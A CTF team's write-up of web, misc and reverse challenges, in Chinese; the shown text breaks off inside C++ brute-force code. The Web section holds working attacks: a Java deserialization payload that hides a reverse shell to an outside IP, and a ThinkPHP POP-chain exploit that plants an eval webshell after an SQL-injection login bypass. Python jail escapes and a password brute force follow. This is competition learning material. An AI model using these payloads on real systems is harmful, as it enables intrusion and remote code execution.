



# 0RAYS 战队 WRITEUP

# <strong>战队信息</strong>

战队名称：0RAYS

战队排名：8

# <strong>解题情况</strong>


# <strong>解题过程</strong>

# Web

## Happygame

访问提示用 http2，后续经过分析发现是 grpc 服务

使用工具 [https://github.com/fullstorydev/grpcui](https://github.com/fullstorydev/grpcui) 进行连接


测试发现有个接口，只能是打反序列化了，经过尝试发现是 java 的后端



CC6 能打通

```python
rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AGFiYXNoIC1jIHtlY2hvLFltRnphQ0F0YVNBK0ppOWtaWFl2ZEdOd0x6RXhNUzR5TWprdU9EZ3VNVFExTHpFeU16UWdNRDRtTVE9PX18e2Jhc2U2NCwtZH18e2Jhc2gsLWl9dAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg=
```


## Thinkshop

goods.html 和 goods_edit.html 页面均存在反序列化接口


admin 用户下修改 goods，$data 参数是可控的，能打个 sql 注入，通过 sql 注入将 data 的值设置为恶意序列化数据，再通过 goods.html 页面触发反序列化即可


admin 登录这里查询其实用的是 id 去查的


直接 `username=1&password=123456` 即可成功登录

反序列化用的 ThinkPHP/FW1 的 poc 写个 webshell 即可

注意这还有个前缀判断


用数组包装下就行

poc

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    use think\cache\driver\Memcached;
    class Windows{
        private $files = [];
        public function __construct($path,$data)
        {
            $this->files = [new Pivot($path,$data)];
        }
    }
    $data = base64_encode('<?php phpinfo();eval($_GET[0]);?>');
    echo "tp5.0.24 write file pop Chain\n";
    echo "The '=' cannot exist in the data,please check：".$data."\n";
    $path = 'php://filter/convert.base64-decode/resource=./';
    $aaa = new Windows($path,$data);
    echo base64_encode(serialize([$aaa]));
    echo "\n";
    echo 'filename:'.md5('tag_'.md5(true)).'.php';
}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($path,$data)
        {
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($path,$data);
            $this->parent = new \think\console\Output($path,$data);
        }
    }
    abstract class Relation
    {}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {}
    class BelongsTo extends OneToOne
    {
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($path,$data)
        {
            $this->selfRelation = false;
            $this->query = new Query($path,$data);
            $this->bindAttr = ['a'.$data];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct($path,$data)
        {
            $this->model = new Output($path,$data);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
    {
        protected $styles = [];
        private $handle;
        public function __construct($path,$data)
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($path,$data);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\File;
    use think\cache\driver\Memcached;
    class Memcache
    {
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($path,$data)
        {
            $this->handler = new Memcached($path,$data);
        }
    }
}
namespace think\cache\driver{
    class Memcached
    {
        protected $handler;
        protected $tag;
        protected $options = [];
        public function __construct($path,$data)
        {
            $this->options = ['prefix'   => ''];
            $this->handler = new File($path,$data);
            $this->tag = true;
        }
    }
}
namespace think\cache\driver{
    class File
    {
        protected $options = [];
        protected $tag;
        public function __construct($path,$data)
        {
            $this->tag = false;
            $this->options = [
                'expire'        => 0,
                'cache_subdir'  => false,
                'prefix'        => '',
                'path'          => $path,
                'data_compress' => false,
            ];
        }
    }
}
```

`userame=1&password=123456` 登录

```xml
POST /public/index.php/index/admin/do_edit.html HTTP/1.1
Host: eci-2zeiuc2hk7njbdzrv30j.cloudeci1.ichunqiu.com
Content-Length: 2269
Connection: close

id=1&name=fake_flag&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&image=https%3A%2F%2Fi.postimg.cc%2FFzvNFBG8%2FR-6-HI3-YKR-UF-JG0-G-N.jpg&data`%3d'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'%23=1&data=1
```

刷新访问 webshell


# Misc

## Easyfuzz

随便测试一下，发现长度为 9 的时候前两位是 1，然后测试，发现正确位置输入正确的字符后 1 会变多，爆破一下

```python
from pwn import *
import string

a = string.ascii_lowercase
ans = ["0"]*9
io = remote("101.200.122.251", 12199)
maxn = 2
for i in range(9):
    for j in a:
        ans[i] = j
        ans2 = "".join(ans)
        text = io.recvuntil(b"10 bytes):")
        io.sendline(ans2.encode())
        text = io.recvline()
        #print(text)
        n = text.split(b":")[1].count(b"1")
        print(n)
        if(n > maxn):
            maxn = n
            print(ans)
            break
```


## WABBY Wabbo Radio

抓包发现音频可以直接访问下载

一共五个音频，每个音频都有摩斯

得到 hint，flag 相关信息

试一下能够找到 hint1.hint2 和 flag.wav

hint1 和 hint2 的左声道都有摩斯

提取

hint1

```python
DOYOUKNOWQAM?
```

hint2

```python
MAYBEFLAGISPNGPICTURE
```

flag.wav 应该是图片加密后生成的音频

QAM 大致就也是通信上的一种替换吧

16QAM 的星座图可以理解成就是一种替换密码


看 flag.wav 发现特征


每个声道的数据是 4 个字节，但是每组数据的第四字节只有四种情况

所以应该就是一个 4QAM 的替换

考虑就是一个四进制，拿 png 文件头试了下，发现刚好可以对上，就直接按四进制处理

```python
import libnum 

f = open("flag.wav","rb").read()
f = f[88:]
res = ""
for i in range(3,len(f),4):
    if(f[i] == 63):
        res += "10"
    elif(f[i] == 192):
        res += "00"
    elif(f[i] == 191):
        res += "01"
    else:
        res += "11"
fw = open("1.png","wb")
fw.write(libnum.b2s(res))
```


## Pyjail ! It's myFILTER !!!

非预期了，直接读环境变量

```python
{print(open("/proc/1/environ").read())}
```

## Pyjail ! It's myRevenge !!!

修了一下，把环境变量去了，尝试读了一下/start.sh，看看有没有漏什么

```python
#!/bin/sh
# Add your startup script

# # CMD sed -i "s/FLAG/$ICQ_FLAG/" /home/ctf/flag* && unset ICQ_FLAG && rm -rf /etc/profile.d/pouchenv.sh && rm -rf /etc/instanceInfo && socat TCP-L:9999,fork,reuseaddr EXEC:"python3 ./server.py",pty,stderr,setsid,sane,raw,echo=0

# FLAG_PATH=/flag
FLAG_PATH=/home/ctf/flag_`hexdump -n 32 -v -e '/1 "%02X"' /dev/urandom`
FLAG_MODE=M_ECHO
if [ ${ICQ_FLAG} ];then
    case $FLAG_MODE in
        "M_ECHO")
            echo -n ${ICQ_FLAG} > ${FLAG_PATH}
            FILE_MODE=755 # 注意这里的权限，flag的权限一定要注意，是所有用户可读，还是只有root可读
            chmod ${FILE_MODE} ${FLAG_PATH}
            ;;
        "M_SED")
            #sed -i "s/flag{x*}/${ICQ_FLAG}/" ${FLAG_PATH}
            sed -i -r "s/flag\{.*\}/${ICQ_FLAG}/" ${FLAG_PATH}
            ;;
        "M_SQL")
            # sed -i -r "s/flag\{.*\}/${ICQ_FLAG}/" ${FLAG_PATH}
            # mysql -uroot -proot < ${FLAG_PATH}
            ;;
        *)
            ;;
    esac
    echo [+] ICQ_FLAG OK
    unset ICQ_FLAG
else
    echo [!] no ICQ_FLAG
fi

#del eci env
rm -rf /etc/profile.d/pouchenv.sh
rm -rf /etc/instanceInfo

#clear fd
rm -rf /start.sh /root/start.sh

socat TCP-L:9999,fork,reuseaddr EXEC:"python3 ./server_8F6C72124774022B.py",pty,stderr,setsid,sane,raw,echo=0 &
exec tail -f /dev/null
```

没啥用，还得正常做；通过覆盖 globals 中的 `my_filter` 和 `len` 函数使过滤失效，同时通过 `{inpu''t}` 绕过初次检测，同时接收第二次的 payload

```python
{globals().update(dict(my_filter=lambda x:0))}''{inpu''t()}'#
```

失效 `len`

```python
{globals().update(dict(len=lambda x:0))}''{inpu''t()}'#
```

题目中把常用的命令执行函数给置空了，根据 `/start.sh` 得知 flag 位置，列出一下目录，然后去读

```python
{print("".__class__.__base__.__subclasses__()[180].__init__.__globals__["listdir"]("."))}''{inpu''t()}'#
```

读 flag

```python
{print(open("flag_9C9DDF69F9BE0507C92049221919609C6970C866C00877CC7639EB2E8F13E5DF").read())}
```

## 谍影重重 2.0

搜索飞机相关的流量找到 ADS-B

[https://mode-s.org/decode/content/ads-b/1-basics.html](https://mode-s.org/decode/content/ads-b/1-basics.html)

把 tcp 的 segament 信息导出直

用 modes 包就能读取信息，然后 typecode 是 19 的就是速度信息

```python
import pyModeS as pms

f = open("data.txt","r").readlines()
for i in f:
    data = i[18:-1]#少去了一个换行竟然数据都不对
    b = pms.typecode(data)
    if(b == 19):
        pms.tell(data)
```

最快的是


把 ICAO address 大写后再 md5

## 谍影重重 3.0

根据提示考虑代理工具的流量


考虑是 shadowsocks 流量

[https://www.ichenxiaoyu.com/ss/](https://www.ichenxiaoyu.com/ss/)

[https://github.com/shadowsocks/shadowsocks/blob/master/shadowsocks/cryptor.py](https://github.com/shadowsocks/shadowsocks/blob/master/shadowsocks/cryptor.py)

源码就是 python，直接拿过来用
但是没有密码

尝试弱密码爆破

shadowsocks 加密的是 http 流，所以解密后应该包括 HTTP 包的相关信息，搜 HTTP

```python
import os
import sys
import hashlib
from shadowsocks.crypto import rc4_md5, openssl, mbedtls, sodium, table

CIPHER_ENC_ENCRYPTION = 1
CIPHER_ENC_DECRYPTION = 0

METHOD_INFO_KEY_LEN = 0
METHOD_INFO_IV_LEN = 1
METHOD_INFO_CRYPTO = 2

method_supported = {}
method_supported.update(rc4_md5.ciphers)
method_supported.update(openssl.ciphers)
method_supported.update(mbedtls.ciphers)
method_supported.update(sodium.ciphers)
method_supported.update(table.ciphers)

def random_string(length):
    return os.urandom(length)

cached_keys = {}

def to_bytes(s):
    if bytes != str:
        if type(s) == str:
            return s.encode('utf-8')
    return s

def try_cipher(key, method=None, crypto_path=None):
    Cryptor(key, method, crypto_path)

def EVP_BytesToKey(password, key_len, iv_len):
    # equivalent to OpenSSL's EVP_BytesToKey() with count 1
    # so that we make the same key and iv as nodejs version
    cached_key = '%s-%d-%d' % (password, key_len, iv_len)
    r = cached_keys.get(cached_key, None)
    if r:
        return r
    m = []
    i = 0
    while len(b''.join(m)) < (key_len + iv_len):
        md5 = hashlib.md5()
        data = password
        if i > 0:
            data = m[i - 1] + password
        md5.update(data)
        m.append(md5.digest())
        i += 1
    ms = b''.join(m)
    key = ms[:key_len]
    iv = ms[key_len:key_len + iv_len]
    cached_keys[cached_key] = (key, iv)
    return key, iv

class Cryptor(object):
    def __init__(self, password, method, crypto_path=None):
        """
        Crypto wrapper
        :param password: str cipher password
        :param method: str cipher
        :param crypto_path: dict or none
            {'openssl': path, 'sodium': path, 'mbedtls': path}
        """
        self.password = password
        self.key = None
        self.method = method
        self.iv_sent = False
        self.cipher_iv = b''
        self.decipher = None
        self.decipher_iv = None
        self.crypto_path = crypto_path
        method = method.lower()
        self._method_info = Cryptor.get_method_info(method)
        if self._method_info:
            self.cipher = self.get_cipher(
                password, method, CIPHER_ENC_ENCRYPTION,
                random_string(self._method_info[METHOD_INFO_IV_LEN])
            )
        else:
            sys.exit(1)

    @staticmethod
    def get_method_info(method):
        method = method.lower()
        m = method_supported.get(method)
        return m

    def iv_len(self):
        return len(self.cipher_iv)

    def get_cipher(self, password, method, op, iv):
        password = to_bytes(password)
        m = self._method_info
        if m[METHOD_INFO_KEY_LEN] > 0:
            key, _ = EVP_BytesToKey(password,
                                    m[METHOD_INFO_KEY_LEN],
                                    m[METHOD_INFO_IV_LEN])
        else:
            # key_length == 0 indicates we should use the key directly
            key, iv = password, b''
        self.key = key
        iv = iv[:m[METHOD_INFO_IV_LEN]]
        if op == CIPHER_ENC_ENCRYPTION:
            # this iv is for cipher not decipher
            self.cipher_iv = iv
        return m[METHOD_INFO_CRYPTO](method, key, iv, op, self.crypto_path)

    def encrypt(self, buf):
        if len(buf) == 0:
            return buf
        if self.iv_sent:
            return self.cipher.encrypt(buf)
        else:
            self.iv_sent = True
            return self.cipher_iv + self.cipher.encrypt(buf)

    def decrypt(self, buf):
        if len(buf) == 0:
            return buf
        if self.decipher is None:
            decipher_iv_len = self._method_info[METHOD_INFO_IV_LEN]
            decipher_iv = buf[:decipher_iv_len]
            self.decipher_iv = decipher_iv
            self.decipher = self.get_cipher(
                self.password, self.method,
                CIPHER_ENC_DECRYPTION,
                decipher_iv
            )
            buf = buf[decipher_iv_len:]
            if len(buf) == 0:
                return buf
        return self.decipher.decrypt(buf)

def gen_key_iv(password, method):
    method = method.lower()
    (key_len, iv_len, m) = method_supported[method]
    if key_len > 0:
        key, _ = EVP_BytesToKey(password, key_len, iv_len)
    else:
        key = password
    iv = random_string(iv_len)
    return key, iv, m

def encrypt_all_m(key, iv, m, method, data, crypto_path=None):
    result = [iv]
    cipher = m(method, key, iv, 1, crypto_path)
    result.append(cipher.encrypt_once(data))
    return b''.join(result)

def decrypt_all(password, method, data, crypto_path=None):
    result = []
    method = method.lower()
    (key, iv, m) = gen_key_iv(password, method)
    iv = data[:len(iv)]
    data = data[len(iv):]
    cipher = m(method, key, iv, CIPHER_ENC_DECRYPTION, crypto_path)
    result.append(cipher.decrypt_once(data))
    return b''.join(result), key, iv

def encrypt_all(password, method, data, crypto_path=None):
    result = []
    method = method.lower()
    (key, iv, m) = gen_key_iv(password, method)
    result.append(iv)
    cipher = m(method, key, iv, CIPHER_ENC_ENCRYPTION, crypto_path)
    result.append(cipher.encrypt_once(data))
    return b''.join(result)

CIPHERS_TO_TEST = [
    'aes-256-cfb',
]

if __name__ == '__main__':
    a = "e0a77dfafb6948728ef45033116b34fc855e7ac8570caed829ca9b4c32c2f6f79184e333445c6027e18a6b53253dca03c6c464b8289cb7a16aa1766e6a0325ee842f9a766b81039fe50c5da12dfaa89eacce17b11ba9748899b49b071851040245fa5ea1312180def3d7c0f5af6973433544a8a342e8fcd2b1759086ead124e39a8b3e2f6dc5d56ad7e8548569eae98ec363f87930d4af80e984d0103036a91be4ad76f0cfb00206"
    cipher = bytes.fromhex(a)
    f = open("rockyou.txt","rb").readlines()
    for i in f:
        key = i[:-1]
        plain2, key, iv = decrypt_all(key, 'aes-256-cfb', cipher)
        if(b"HTTP" in plain2):
            print(plain2)
```

密码是 superman


## HAPPY CHESS

Flip Game

[https://blog.csdn.net/cros1/article/details/132134622](https://blog.csdn.net/cros1/article/details/132134622)

拿 Gurobi 数学规划一下

```python
import gurobipy as gp
from gurobipy import GRB
from pwn import *

maxn = 9
def cul(n,data):
    # create the model object
    model = gp.Model("Flap Game")
    

    # define decision variables
    x = {}
    y = {}
    for i in range(0, maxn+2):
        for j in range(0, maxn+2):
            if i < 1 or i > maxn or j < 1 or j > maxn:
                x[i, j] = model.addVar(vtype=GRB.BINARY, ub=0, name=f"x_{i}_{j}")
            else:
                x[i, j] = model.addVar(vtype=GRB.BINARY, name=f"x_{i}_{j}")
                y[i, j] = model.addVar(vtype=GRB.INTEGER, name=f"y_{i}_{j}")

    # set the objective function
    model.setObjective(gp.quicksum(x[i, j] for i in range(1, maxn+1) for j in range(1, maxn+1)), GRB.MINIMIZE)

    # add the constraint x[i, j] + x[i-1, j] + x[i+1, j] + x[i, j-1] + x[i, j+1] = 2*y[i, j] + 1
    for i in range(1, maxn+1):
        for j in range(1, maxn+1):
            if(n):
                if(data[i-1][j-1] == 0):
                    model.addConstr(gp.quicksum(x[ii, j] for ii in range(1, maxn+1)) + gp.quicksum(x[i, jj] for jj in range(1, maxn+1)) - x[i, j]== 2*y[i, j] + 1)
                else:
                    model.addConstr(gp.quicksum(x[ii, j] for ii in range(1, maxn+1)) + gp.quicksum(x[i, jj] for jj in range(1, maxn+1)) - x[i, j] == 2*y[i, j])
            else:
                if(data[i-1][j-1] == 1):
                    model.addConstr(gp.quicksum(x[ii, j] for ii in range(1, maxn+1)) + gp.quicksum(x[i, jj] for jj in range(1, maxn+1)) - x[i, j] == 2*y[i, j] + 1)
                else:
                    model.addConstr(gp.quicksum(x[ii, j] for ii in range(1, maxn+1)) + gp.quicksum(x[i, jj] for jj in range(1, maxn+1)) - x[i, j] == 2*y[i, j])

    # optimize the model
    model.Params.outputFlag = 0
    model.optimize()

    # print the results
    ans = []
    if model.status == GRB.OPTIMAL:
        for i in range(1, maxn+1):
            for j in range(1, maxn+1):
                if(x[i, j].x == 1.0):
                    ans.append(f"{i} {j}")
                elif(x[i, j].x != 0.0):
                    print(x[i, j].x)
        return int(model.objVal),ans
    else:
        return 0,[]

io = remote("47.104.199.71", 10075)
text = io.recvuntil(b">")
print(text)
io.sendline(b'icq234edf69a7ddef70dbd8f0051e94c')
text = io.recvlines(10)
print(text)

for n in range(10):
    data = [[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0],[0,0,0,0,0,0,0,0,0]]
    text = io.recvline()
    print(text)
    text = io.recvlines(9)
    print(text)
    for i in range(9):
        res = text[i].replace(b"\xe2\x97\x8f",b"0").replace(b"\xe2\x97\x8b",b"1").decode()
        print(res)
        for j in range(9):
            data[i][j] = int(res[j])
    print(data)

    ans1 = cul(1,data)
    print(ans1)
    ans2 = cul(0,data)
    print(ans2)

    if(ans1[0] != 0 and ans2[0] != 0):
        if(ans1[0] < ans2[0]):
            ans = ans1
        else:
            ans = ans2
    elif(ans1[0] != 0):
        ans = ans1
    elif(ans2[0] != 0):
        ans = ans2

    print(ans)
    for i in range(ans[0]):
        text = io.recvuntil(b">")
        #print(text)
        io.sendline(ans[1][i])
        
    text = io.recvuntil(b"Success")
    print(text)
    text = io.recvlines(2)
    print(text)
text = io.recvline()
print(text)
text = io.recvline()
print(text)
text = io.recvline()
print(text)
text = io.recvline()
print(text)
text = io.recvline()
print(text)
```

# Reverse

## dotdot

32 位，.net



有些静态初始化无法获取，通过调试查看。

v4 = [0x61, 0x93, 0x31, 0x7B, 0xF8, 0x96, 0xE0, 0x00, 0xA5, 0x27, 0xB7, 0x37, 0x4A, 0xE3, 0x03, 0xA8]

v5 = [0xEB, 0x95, 0x71, 0x9A, 0x7C, 0x69, 0x6E, 0xAA, 0xBE, 0x11, 0xF4, 0xD4, 0x73, 0x60, 0xE9, 0x13]

v11 数据特别大（36864 个 uint）这里放在文件里。v11 的形状是 uint[9, 16, 256]

v12 也特别大。形状为[0x9, 0x60, 0x10, 0x10]

v13, v14 同上

口令参与解密


Patch 跳过口令认证

调试获得解密后的 memstream

结果不正确！

（已删除不正确的数据）

在反序列化时抛出异常。

Notes

Program.CCC  数组比较

Program.EEE  类似 RC4 加密

Program.AAA(byte[] input, byte[] output)  某种加密（或变换），通过 input 的值生成结果，同时复制到 output

Program.AAA 函数复现（C# 源码, VS 工程）。包含 v11, v12, v13, v14 的数据且还原了格式

已解出

爆破脚本的数据很长，放在 zip 里

```cpp
// testCrack.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//

#include <stdio.h>
#include "bigdata.h"

unsigned int packup4(unsigned int* bytes)
{
    return (bytes[0] << 24) | (bytes[1] << 16) | (bytes[2] << 8) | bytes[3];
}

void putline(unsigned int* data)
{
    //printf("");
    for (int i = 0; i < 16; i++)
        printf("0x%02x, ", data[i]);
    printf("\n");
}

void ggg_re(unsigned int* data)
{
    const unsigned char sbox[16] = { 0, 13, 10, 7, 4, 1, 14, 11, 8, 5, 2, 15, 12, 9, 6, 3 };
    unsigned int buf[16];
    for (int i = 0; i < 16; i++)
    {
        buf[i] = data[sbox[i]];
    }
    for (int i = 0; i < 16; i++)
    {
        data[i] = buf[i];
    }
}

void find_from_v11(unsigned int val, int shift, unsigned int* out)
{
    for (unsigned int i = 0; i < 256; i++)
    {
        unsigned int t1 = v11[shift + i];
        for (unsigned int j = 0; j < 256; j++)
        {
            unsigned int t2 = v11[shift + j + 0x100] ^ t1;
            for (unsigned int k = 0; k < 256; k++)
            {
                unsigned int t3 = v11[shift + k + 0x200] ^ t2;
                for (unsigned int m = 0; m < 256; m++)
                {
                    unsigned int t4 = v11[shift + m + 0x300] ^ t3;
                    if (t4 == val)
                    {
                        out[0] = i;
                        out[1] = j;
                        out[2] = k;
                        out[3] = m;
                        return;
                        // printf("out: 0x%02x%02x%02x%02x\n", i, j, k, m);
                    }
                }
            }
        }
    }
}

void find_from_v13(unsigned int val, int shift, unsigned int* out)
{
    for (unsigned int i = 0; i < 256; i++)
    {
        unsigned int t1 = v13[shift + i];
        for (unsigned int j = 0; j < 256; j++)
        {
            unsigned int t2 = v13[shift + j + 0x100] ^ t1;
            for (unsigned int k = 0; k < 256; k++)
            {
